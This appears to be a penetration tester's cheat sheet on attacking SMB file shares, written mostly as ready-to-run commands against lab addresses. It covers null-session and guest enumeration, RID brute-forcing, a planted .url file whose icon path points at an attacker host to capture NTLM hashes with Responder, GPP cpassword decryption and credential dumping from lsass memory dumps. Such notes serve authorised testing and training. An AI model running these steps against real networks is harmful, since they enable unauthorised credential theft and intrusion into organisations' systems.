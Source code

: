 # Server Message Block

## Footprinting The Service

### Nmap

{% code overflow="wrap" %}
```
sudo nmap 10.129.14.128 -sV -sC -p139,445
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>

### RPCclient

{% code overflow="wrap" %}
```
rpcclient -U "" 10.129.14.128
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

| Query                     | Description                                                        |
| ------------------------- | ------------------------------------------------------------------ |
| `srvinfo`                 | Server information.                                                |
| `enumdomains`             | Enumerate all domains that are deployed in the network.            |
| `querydominfo`            | Provides domain, server, and user information of deployed domains. |
| `netshareenumall`         | Enumerates all available shares.                                   |
| `netsharegetinfo <share>` | Provides information about a specific share.                       |
| `enumdomusers`            | Enumerates all domain users.                                       |
| `queryuser <RID>`         | Provides information about a specific user.                        |

## Search For Known SMB Version Vulnerabilities

## Check For Shares Using Null Sessions

```
smbclient -N -L //$ip/
```

```
cme smb $ip --shares -u "guest" -p ""
```

## URL File attacks

_Test for URL File attacks by creating a file called "@somename.url" with the following contents, upload, spin up smbserver to capture hash_

```
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\EnterAttackerip\%USERNAME%.icon
IconIndex=1
```

_Run Responder to capture hashes_

```
/opt/Responder-3.1.3.0/Responder.py -I tun0
```

## Read / Upload access

_Attempt to download and view share contents using valid credential / anonymous login / null session_

```
smbmap -u guest -p "" -H $ip -A '.*' -R
```

## Cpassword discovery

_Search "Groups.xml" for cpassword decryption_

```
gpp-decrypt cpassword
```

## lsass.zip lsass.dmp

_search lsass.zip or lsass.dmp to use to dump credentials / keys / tickets_

```
pypykatz lsa minidump "lsass.zip"
```

## Alternate Data Streams (ADS)

_test for alternate data streams after discovering 0 byte files_

```
allinfo filename
```

## Check Password Policy

```
cme smb $ip --pass-pol -u guest -p ""
```

## User Discovery

_Check For users using valid credential / anonymous login / null session_

```
cme smb $ip --users -u guest -p ""
```

```
cme smb $ip --rid-brute -u guest -p ""
```

## Group discovery

_check for groups using valid credential / anonymous login / null session_

```
cme smb $ip --groups -u guest -p ""
```

## Smbclient

_Interactively access the smb shares using smbclient_

```
smbclient //$ip/someshare -N
```

```
smbclient //$ip/someshare -U 'guest' -N
```

```
smbclient //$ip/someshare -U 'validuser' -p 'validpass'
```



## Dangerous Settings

| Setting                     | Description                                                         |
| --------------------------- | ------------------------------------------------------------------- |
| `browseable = yes`          | Allow listing available shares in the current share?                |
| `read only = no`            | Forbid the creation and modification of files?                      |
| `writable = yes`            | Allow users to create and modify files?                             |
| `guest ok = yes`            | Allow connecting to the service without using a password?           |
| `enable privileges = yes`   | Honor privileges assigned to specific SID?                          |
| `create mask = 0777`        | What permissions must be assigned to the newly created files?       |
| `directory mask = 0777`     | What permissions must be assigned to the newly created directories? |
| `logon script = script.sh`  | What script needs to be executed on the user's login?               |
| `magic script = script.sh`  | Which script should be executed when the script gets closed?        |
| `magic output = script.out` | Where the output of the magic script needs to be stored?            |

